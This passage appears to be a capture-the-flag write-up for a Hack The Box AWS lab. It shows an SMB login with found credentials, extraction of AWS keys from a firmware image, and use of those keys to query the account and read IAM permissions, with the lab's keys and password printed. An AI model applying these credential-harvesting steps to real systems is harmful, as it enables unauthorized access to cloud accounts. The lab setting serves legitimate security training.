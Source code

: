 Then use `impacket-smbclient` download them
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ impacket-smbclient amzcorp.local/jameshauwnnel:'654221p!'@dc01.amzcorp.local
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# use Product_Release
# ls
drw-rw-rw-          0  Fri Jan 21 07:53:44 2022 .
drw-rw-rw-          0  Fri Jan 21 07:53:44 2022 ..
-rw-rw-rw-   18770248  Fri Jan 21 07:53:44 2022 AMZ-V1.0.11.128_10.2.112.chk
-rw-rw-rw-        838  Fri Jan 21 07:53:44 2022 AMZ-V1.0.11.128_10.2.112_Release_Notes.html  
# mget *
[*] Downloading AMZ-V1.0.11.128_10.2.112.chk
[*] Downloading AMZ-V1.0.11.128_10.2.112_Release_Notes.html
#
```

Using `binwalk` we can extract the files from the `.chk` and find `claves` in one of the files that can be used to authenticate to AWS services.
```
_AMZ-V1.0.11.128_10.2.112.chk.extracted ❯ strings _database.extracted/104EF | head  
dynamodbz
http://cloud.amzcorp.local
AKIA5M37BDN6CD7IQDFP
(HimNcdhuuNTYzG04Oiv9UhTfnCtKTFxDd8sO0Rue)
endpoint_url
aws_access_key_id
aws_secret_access_keyc
d	d	d
username
HASH)
```

We configure `aws` by providing the keys and using the reserved cloud domain as the endpoint, we make an `sts` call to see the current user, which is john
```
aws configure
AWS Access Key ID [None]: AKIA5M37BDN6CD7IQDFP
AWS Secret Access Key [None]: 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  
Default region name [None]: us-east-1
Default output format [None]:

aws --endpoint-url http://cloud.amzcorp.local sts get-caller-identity | jq  
{
  "UserId": "AKIAC4G4H8J2K9K1L0M2",
  "Account": "000000000000",
  "Arn": "arn:aws:iam::000000000000:user/john"
}
```

In the `.yml `configuration file in company-support, we can see the permissions of user John, which can be dumped by scanning the users table of `DynamoDB`.
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ curl -s http://company-support.amzcorp.local/static/uploads/CF_Prod_Template.yml | sed -n 133,146p  
  JohnUser:
    Type: 'AWS::IAM::User'
    Properties:
      UserName: john
      Path: /
      Policies:
        - PolicyName: dynamodb-policy
          PolicyDocument:
```